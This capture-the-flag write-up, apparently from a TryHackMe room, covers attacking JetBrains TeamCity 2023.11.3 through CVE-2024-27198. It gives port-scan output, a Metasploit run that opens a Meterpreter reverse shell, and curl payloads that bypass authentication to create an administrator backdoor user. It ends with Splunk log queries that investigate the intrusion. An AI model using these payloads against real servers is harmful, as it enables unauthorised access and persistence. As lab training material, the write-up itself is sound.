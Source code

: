 ![](../../../assets/images/Pasted%20image%2020251031112046.png)

---
# Method 1
### Enumeration
`Nmap`
```js
 .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/user/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.201.125.63:22
Open 10.201.125.63:80
Open 10.201.125.63:50000
[~] Starting Script(s)
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-01 11:10 UTC
Initiating Ping Scan at 11:10
Scanning 10.201.125.63 [2 ports]
Completed Ping Scan at 11:10, 0.34s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:10
Completed Parallel DNS resolution of 1 host. at 11:10, 0.06s elapsed
DNS resolution of 1 IPs took 0.07s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 11:10
Scanning 10.201.125.63 [3 ports]
Discovered open port 22/tcp on 10.201.125.63
Discovered open port 80/tcp on 10.201.125.63
Discovered open port 50000/tcp on 10.201.125.63
Completed Connect Scan at 11:10, 0.29s elapsed (3 total ports)
Nmap scan report for 10.201.125.63
Host is up, received syn-ack (0.32s latency).
Scanned at 2025-11-01 11:10:46 UTC for 0s

PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack
80/tcp    open  http    syn-ack
50000/tcp open  ibm-db2 syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.71 seconds
```

---
There is one login page on port `50000`

![](../../../assets/images/Pasted%20image%2020251101164357.png)

![](../../../assets/images/Pasted%20image%2020251101170127.png)

I just Noticed Version `2023.11.3` so searched it immediately and found this on [rapid7](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/)

![](../../../assets/images/Pasted%20image%2020251101170143.png)

then just searched on `msfconsole` and found it :

![](../../../assets/images/Pasted%20image%2020251101183337.png)

---
### Exploitation

i used 4th module from above list : 

```bash
[msf](Jobs:0 Agents:0) exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) >> set LHOST 10.8.31.47
LHOST => 10.8.31.47
[msf](Jobs:0 Agents:0) exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) >> exploit 
[*] Started reverse TCP handler on 10.8.31.47:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.ZmR4bUVYVzdQLVdJLUo4MHVGS0hYbmdUSllz.NmE3ZGY0MzItMTk4Yi00Y2VjLWEwODgtYmFiMDE1MGNiMzQ3
[*] Uploading plugin: m7WplZt9
[*] Sending stage (58073 bytes) to 10.201.125.63
[*] Deleting the plugin...
[+] Deleted /opt/teamcity/TeamCity/work/Catalina/localhost/ROOT/TC_147512_m7WplZt9
[+] Deleted /home/ubuntu/.BuildServer/system/caches/plugins.unpacked/m7WplZt9
[*] Meterpreter session 1 opened (10.8.31.47:4444 -> 10.201.125.63:54264) at 2025-11-01 11:40:06 +0000
[*] Deleting the authentication token...
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/webapps/ROOT/plugins/m7WplZt9' on the target
```

and i got shell : 

```js
msf](Jobs:0 Agents:0) exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) >> exploit 
[*] Started reverse TCP handler on 10.8.31.47:4445 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.cUdvN1duVmp3RVJQal9aZ2IyTUVCLVExQmRF.OTVkY2U3YzEtZjgwZC00MzIwLWI5ZmUtZjFmN2ZjODZkYzdm
[*] Uploading plugin: ZPYR1Toq
[*] Sending stage (58073 bytes) to 10.201.63.63
[*] Deleting the plugin...
[*] Deleting the authentication token...
[+] Deleted /opt/teamcity/TeamCity/work/Catalina/localhost/ROOT/TC_147512_ZPYR1Toq
[+] Deleted /home/ubuntu/.BuildServer/system/caches/plugins.unpacked/ZPYR1Toq
[*] Meterpreter session 2 opened (10.8.31.47:4445 -> 10.201.63.63:40768) at 2025-11-01 12:59:30 +0000
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/webapps/ROOT/plugins/ZPYR1Toq' on the target

(Meterpreter 2)(/opt/teamcity/TeamCity/bin) >

```

and found flag in `/home/ubuntu`

```js
(Meterpreter 2)(/home/ubuntu) > ls
Listing: /home/ubuntu
=====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  4096  dir   2025-11-01 11:54:58 +0000  .BuildServer
000667/rw-rw-rwx  0     fif   2025-11-01 11:52:59 +0000  .bash_history
100667/rw-rw-rwx  220   fil   2020-02-25 12:03:22 +0000  .bash_logout
100667/rw-rw-rwx  3771  fil   2020-02-25 12:03:22 +0000  .bashrc
040777/rwxrwxrwx  4096  dir   2024-07-02 09:39:13 +0000  .cache
040777/rwxrwxrwx  4096  dir   2024-08-02 08:54:48 +0000  .config
040777/rwxrwxrwx  4096  dir   2024-07-02 09:40:18 +0000  .local
100667/rw-rw-rwx  807   fil   2020-02-25 12:03:22 +0000  .profile
100667/rw-rw-rwx  66    fil   2024-07-02 09:59:35 +0000  .selected_editor
040777/rwxrwxrwx  4096  dir   2024-07-02 09:38:50 +0000  .ssh
100667/rw-rw-rwx  0     fil   2024-07-02 09:39:21 +0000  .sudo_as_admin_successful
100667/rw-rw-rwx  214   fil   2024-07-02 09:46:35 +0000  .wget-hsts
100666/rw-rw-rw-  38    fil   2025-11-01 13:13:38 +0000  flag.txt

(Meterpreter 2)(/home/ubuntu) > cat flag.txt
THM{faa9bac345709b6620a6200b484c7594}
```

---
# Method 2 (Manual)

As mentioned before, the version `teamcity 2023.11.3` is in use.
To add a user with the administrator role manually, the following payload could be used, but it still needs to be adapted for our use.
```bash
curl -ik http://172.29.228.65:8111/hax?jsp=/app/rest/users;.jsp -X POST -H "Content-Type: application/json" --data "{\"username\": \"haxor\", \"password\": \"haxor\", \"email\": \"haxor\", \"roles\": {\"role\": [{\"roleId\": \"SYSTEM_ADMIN\", \"scope\": \"g\"}]}}"
```

What is happening here?
> To leverage this vulnerability to successfully call the authenticated endpoint `/app/rest/server`, an unauthenticated attacker must satisfy the following three requirements during an HTTP(S) request:
>- Request an unauthenticated resource that generates a 404 response. This can be achieved by requesting a non existent resource, e.g.:
    /hax
>- Pass an HTTP query parameter named jsp containing the value of an authenticated URI path. This can be achieved by appending an HTTP query string, e.g.:
     ?jsp=/app/rest/server
>- Ensure the arbitrary URI path ends with .jsp. This can be achieved by appending an HTTP path parameter segment, e.g.:
     ;.jsp
Combining the above requirements, the attacker’s URI path becomes:
	/hax?jsp=/app/rest/server;.jsp
By using the authentication bypass vulnerability, we can successfully call this authenticated endpoint with no authentication.
>
> ```js
> C:\Users\sfewer>curl -ik http://172.29.228.65:8111/hax?jsp=/app/rest/server;.jsp
> ```

```js
curl -ik 'http://brains.thm:50000/hax?jsp=/app/rest/server;.jsp'
```

![](attachments/Pasted%20image%2020251101200012.png)

```bash
curl -ik http://10.201.34.50:50000/hax?jsp=/app/rest/server;.jsp -X POST -H "Content-Type: application/json" --data "{\"username\": \"0xjohn\", \"password\": \"0xjohn\", \"email\": \"0xb0b\", \"roles\": {\"role\": [{\"roleId\": \"SYSTEM_ADMIN\", \"scope\": \"g\"}]}}
```
---

### Blue Team Part

so the first question is :

`What is the name of the backdoor user which was created on the server after exploitation?`

so i just selected all time here 

![](attachments/Pasted%20image%2020251101190153.png)

```js
source="/var/log/auth.log" index=* "new user"
```

i searched this and found this : 

![](attachments/Pasted%20image%2020251101190517.png)

---
Now the second question :
`What is the name of the malicious-looking package installed on the server?`

for package i checked `dpkg.log` using this 

```js
source="/var/log/dpkg.log" *install*
```

but i found many pkgs so i mentioned date from user that we found earlier `eviluser` 

```js
source="/var/log/dpkg.log" date_month="july" date_mday="4" *install*
```

![](attachments/Pasted%20image%2020251101191303.png)

---
Now last question :

`What is the name of the plugin installed on the server after successful exploitation?`

so this question is about plugin of teamcity i remembered that there is one directory when i got shell first time 

![](attachments/Pasted%20image%2020251101191555.png)

and when i go one directory back i found `logs` directory 

![](attachments/Pasted%20image%2020251101191828.png)

then i tried with many files and finally using this i found it : 

```js
source="/opt/teamcity/TeamCity/logs/teamcity-activities.log"
index=* 
```

![](attachments/Pasted%20image%2020251101192651.png)

---
